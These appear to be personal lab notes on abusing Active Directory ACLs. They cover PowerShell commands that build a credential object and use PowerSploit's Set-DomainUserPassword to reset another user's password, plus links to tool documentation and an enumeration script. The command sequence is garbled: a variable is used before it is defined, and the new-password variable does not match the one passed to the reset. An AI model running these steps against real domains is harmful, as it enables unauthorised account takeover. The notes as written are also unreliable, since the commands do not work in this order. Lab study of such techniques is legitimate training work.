 # Abusing ACLs

- Kicking of the Attack Chain.

Abusing ACLs has to be done over Win.

[Set-DomainUserPassword - PowerSploit](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/)

<aside>
💡

Set Passwords.

</aside>

WE NEED TO USE THOSE 2 COMMANDS TO FIRST AUTHENTICATE AS THE USER (WHEN RUNNING THE ACL Attack , WE NEED TO BE THE USER)

Create a PSCredential Object.
`$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)`

Set Second Passw$0rd.
`$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`

Then we change the Passw0rd.
 `$AttackedAccNewPassw = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
`$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\user', $SecPassword)` 

 `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose`

First Chain Attack in action.

![image.png](Abusing%20ACLs%20169357aeddc080fa8fc5cca78ad8fc87/image.png)

# Scripting ACL ENUM.

[https://github.com/Zin0D/ACLUsrEnum](https://github.com/Zin0D/ACLUsrEnum)